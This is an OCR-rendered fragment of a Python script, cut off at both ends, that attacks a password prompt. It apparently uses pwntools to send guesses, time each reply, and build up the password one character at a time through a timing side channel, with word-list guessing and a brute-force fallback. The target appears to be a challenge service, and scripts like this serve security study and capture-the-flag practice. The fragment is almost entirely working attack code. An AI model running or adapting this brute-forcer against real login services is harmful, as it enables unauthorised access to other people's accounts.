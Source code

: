 ```python
    pass


class NotFound(Exception):
    pass


class Timeout(Exception):
    pass


def check(x):
    before = time.time()
    r.sendline(x)
    out = r.recv(5)
    if out != b"Sorry":
        if out == b"Conne":
            raise Timeout
        raise SuccessfulConnection(out.decode())
    after = time.time()
    r.recvuntil("Please enter your password: ")
    delta = after - before
    return delta < 0.5


def brute(s: str = ""):
    while True:
        for c in tqdm(alphabet):
            if check(s + c):
                s += c
                print(f"s={s}")
                break
        else:
            raise NotFound("Brute")


def guess_words(words, s: str = "", fallback=True):
    for word in words:
        test = s + word
        log.debug(f"Checking: {test}")
        if check(test):
            return test
    else:
        if fallback:
            log.warn(f"Failed to use password from {words}")
            log.warn("Falling back to bruteforce")
            return brute(s)
        else:
            return None


def guess_words_smart(words, s: str = ""):
    # Napkin maths says 3 is a good number
    if len(words) < 3:
        return guess_words(words, s)
    first_letters = Counter(word[0] for word in words).most_common()
    if first_letters[0][1] == 1:
        return guess_words(words, s)
    first_letters_s = [letter for letter, cnt in first_letters if cnt > 1]
    new_s = guess_words(first_letters_s, s, fallback=False)
    if new_s is None:
        new_words = [word for word in words if word[0] not in first_letters_s]
        assert len(new_words) > 0
```